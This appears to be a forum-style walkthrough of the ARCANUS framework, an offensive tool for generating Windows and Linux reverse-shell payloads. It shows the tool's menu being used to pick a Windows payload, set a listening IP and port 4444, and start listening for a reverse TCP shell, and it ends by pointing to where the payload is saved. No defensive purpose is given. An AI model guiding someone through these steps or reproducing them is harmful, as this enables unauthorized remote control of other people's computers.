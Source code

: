                          /\             /\
                        |`\\_,--="=--,_//`|
                        \ ."  :'. .':  ". /
                       ==)  _ :  '  : _  (==
                         |>/O\   _   /O\<|
                         | \-"~` _ `~"-/ |
                        >|`===. \_/ .===`|<
                  .-"-.   \==='  |  '===/   .-"-.
.----------------{'. '`}---\,  .-'-.  ,/---{.'. '}----------------.
 )               `"---"`     `~-===-~`     `"---"`               (
(            ____ ___ _               _   ____  _  ___            )
 )          / ___|_ _| |__   __ _  __| | |___ \/ |( _ )          (
(          | |  _ | || '_ \ / _` |/ _` |   __) | |/ _ \           )
 )         | |_| || || | | | (_| | (_| |  / __/| | (_) |         (
(           \____|___|_| |_|\__,_|\__,_| |_____|_|\___/           )
 )                                                               (
'-----------------------------------------------------------------'
root@Gihad:~/Desktop/ARCANUS# ./ARCANUS

           _______  _______  _______  _______  _                 _______ 
          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

 [1] START LISTENING

 [2] GENERATE WINDOWS PAYLOAD                   (4.5 Mb)

 [3] GENERATE LINUX PAYLOAD                     (3.6 Mb)

 [4] GENERATE STAGER WINDOWS PAYLOAD            (2.0 Mb)

 [5] GENERATE STAGER LINUX PAYLOAD              (2.0 Mb)

 [6] UPDATE


>>

After opening the tool Choose payload what you want (For example)

           _______  _______  _______  _______  _                 _______ 
          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

 [1] START LISTENING

 [2] GENERATE WINDOWS PAYLOAD                   (4.5 Mb)

 [3] GENERATE LINUX PAYLOAD                     (3.6 Mb)

 [4] GENERATE STAGER WINDOWS PAYLOAD            (2.0 Mb)

 [5] GENERATE STAGER LINUX PAYLOAD              (2.0 Mb)

 [6] UPDATE


>>2

           _______  _______  _______  _______  _                 _______ 
          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

Enter Listening Ip: here Enter ip External or internal this is your opinion you  Not me
 
           _______  _______  _______  _______  _                 _______ 
          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

Enter Listening Ip: 192.168.15.132

Enter Listening Port:  here Enter port 4444 or 443 this is your opinion you  Not me

           _______  _______  _______  _______  _                 _______ 
          (  ___  )(  ____ )(  ____ \(  ___  )( (    /||\     /|(  ____ \
          | (   ) || (    )|| (    \/| (   ) ||  \  ( || )   ( || (    \/
          | (___) || (____)|| |      | (___) ||   \ | || |   | || (_____ 
          |  ___  ||     __)| |      |  ___  || (\ \) || |   | |(_____  )
          | (   ) || (\ (   | |      | (   ) || | \   || |   | |      ) |
          | )   ( || ) \ \__| (____/\| )   ( || )  \  || (___) |/\____) |
          |/     \||/   \__/(_______/|/     \||/    )_)(_______)\_______)


+ -- --=[      ARCANUS FRAMEWORK                  ]
+ -- --=[ Version: 1.5.6                          ]
+ -- --=[ Support: arcanusframework@gmail.com     ]
+ -- --=[               Ege Balcı                 ]

[+] Payload generated at /root/Desktop/ARCANUS

[*] Port:4444

[*] Listening For Reverse TCP Shell...


And then Go Folder tool There it falls payload Your 
 /root/Desktop/ARCANUS <<<<< 




